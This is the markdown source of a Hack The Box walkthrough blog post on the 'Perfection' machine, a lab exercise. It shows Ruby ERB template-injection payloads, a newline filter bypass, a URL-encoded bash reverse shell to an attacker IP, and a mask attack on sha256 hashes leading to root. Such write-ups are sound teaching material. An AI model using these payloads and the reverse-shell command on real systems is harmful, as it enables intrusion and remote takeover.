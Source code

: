 ```yaml
---
title: "Perfection Walkthrough(HTB)"
date: 2025-03-14
draft: false 
description: "Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the `sudo` group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain `root` access."
tags: ["Easy", "Linux", "HTB", "hacking","walkthrough", "web"]
series: ["Hack The Box"]
series_order: 4
---
```


## Reconnaissance && Enumeration  
- Nmap scan results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 15.030 days (since Tue Dec 31 22:06:01 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- I was hanging around the website to find anything interesting, I am not gonna lie the website is both basic and neat
![gif](https://media1.tenor.com/m/RKfVkcF5d38AAAAC/well-made-sungwon-cho.gif)
- After a while I foud this Weighted grade calculator interesting
![Pasted image 20250116004126.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116004126.png?raw=true)
- In the footer of the page it shows/exposes that the website powered by `WEBrick 1.7.0`. So I noted it down.
- After some bunch of research I learnt that WEBrick uses Ruby to run. If I can recall I think there is even a module in ruby named Webrick. I'll leave the details below
{{< details summary="View the attached Links" >}} [Link-1 ](https://docs.ruby-lang.org/en/2.4.0/WEBrick.html) <br> [Link-2](https://github.com/ruby/webrick) <br> [Link-3](https://en.wikipedia.org/wiki/WEBrick) {{< /details >}}

- Like in python SSTI are possible for Ruby and as this a calculator it gives us more clue to work on that. So I jumped the gun
![gun](https://media1.tenor.com/m/UrhCgLoVcAcAAAAC/just-jump-the-gun-harry-jowsey.gif)
- This article showcases the SSTI on a WEBrick made site, talk about being lucky, lol --> [Link here](https://trustedsec.com/blog/rubyerb-template-injection)
![lucky](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjY3NjB3ZHAycjl5Nmg5cDk5NjVvMWR1bnJxNTZza3dvZWNoeHlkMiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/THfsqxdJ6K0MrTutIb/giphy.gif)
- This [Medium article](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68) helped me a lot with payloads for the ruby SSTI and while I was testing It, I couldn't get any valid results
![Pasted image 20250116005312.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005312.png?raw=true)
- Below contains the example payloads for Ruby. These are some of the payloads that I used for SSTI
```ruby
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>
```
## Exploitation
- Some payload worked after little tweaks, But blocked by the web page as `Malicious Input` anyway. Hey atleast we got something
![Pasted image 20250116005529.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005529.png?raw=true)
- No matter how I URL encode, it didn't even worked. Probably the site blocks the symbols in the payload hmm...
![thinking](https://media.giphy.com/media/kPtv3UIPrv36cjxqLs/giphy.gif?cid=790b7611ou1885fjp6ktw531ypmpolj0xnsuejgxhz89xpis&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I learnt that URL encoded value of new-line`(%0a`) helps in bypassing SSTI validation So I used that before the payload as prefix and like a magic it worked
- The `whoami` doesn't return any output
![Pasted image 20250116010747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010747.png?raw=true)
- I tried hitting my machine for a check, and I got the request 
![Pasted image 20250116010907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010907.png?raw=true)
- Request: 
![Pasted image 20250116010943.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010943.png?raw=true)
- As everything works fine its time for us to brew the cursed reverse shell payload
![brewing](https://media1.tenor.com/m/6uyO5POa2TMAAAAC/creepy-creep.gif) 
```bash
%0a<%25%3d+system("bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.14.10/7001+<%261'")+%25>
```
- It worked and we are as user `susan` now
- Secured {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250116011350.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116011350.png?raw=true)

## Privilege Escalation
- While enumerating I found two other folders wihin user `susan's` home directory 
![Pasted image 20250116015043.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015043.png?raw=true)
- `Migration` folder had sqlite database file so for a change I opened the file in the target system itself
- The database had only one table called `users` . Inside that table, password hashes for five users were included
![Pasted image 20250116015454.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015454.png?raw=true)
- The hashes were made from using `sha256` algorithm
![Pasted image 20250116015710.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015710.png?raw=true)
- I tried cracking the hashes using my tool [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously sha256_cracker), But it failed
![Pasted image 20250116020022.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020022.png?raw=true)
- Then, I started enumerating system further for privesc vectors and rather I found this `/var/mail`
- Inside `/var/mail/susan` the message reads 
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```
- As per the instructions I created a python script to make password list for user `susan`
```python
output_file = "susan_nasus_password.txt"

with open(output_file, "w") as file:
    for number in range(1, 1_000_000_001):
        file.write(f"susan_nasus_{number}\n")

print(f"File '{output_file}' has been successfully created.")
```
- This would be both easy and fast when using bash 
```bash
for ((i=1; i<=1000000000; i++)); do echo "susan_nasus_$i" >> "$output_file"
```
- With the new wordlists I fired up my tool again and got the password
![Pasted image 20250116020736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020736.png?raw=true)
- You can get my tool from here [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously known as sha256_cracker). More features will be added by the time of your visit
![mine](https://media1.tenor.com/m/CyLsZhMXHioAAAAC/mine-is-the-best-mariah-milano.gif)
- Using the password I logged in via SSH as user `susan`
- I really wasn't expecting this twist I was hoping for more steps, anyway I am glad. See this yourself lol
- User `susan` can run sudo without any password
![are-we-a-joke](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTRmZG9ienp5dW1qYW1xZTExYTdlejgyaW9wNjU3bXVmem9hZTU2cCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/9ppWJumH0DiZ6co7ee/giphy.gif)
![Pasted image 20250116021417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021417.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250116021446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021446.png?raw=true)

{{< typeit >}} Anyway guys, this concludes it this was a fun box but not particularly easy as rated. I hope you liked this post and don't forget to share this post, Fun fact we have share links for almost every platform.. look below. Emp5r0R  signing off... {{< /typeit >}}

![bye](https://media1.tenor.com/m/S1xOjTOnwLgAAAAd/masters-of-the-universe-skeletor-mot-u.gif)
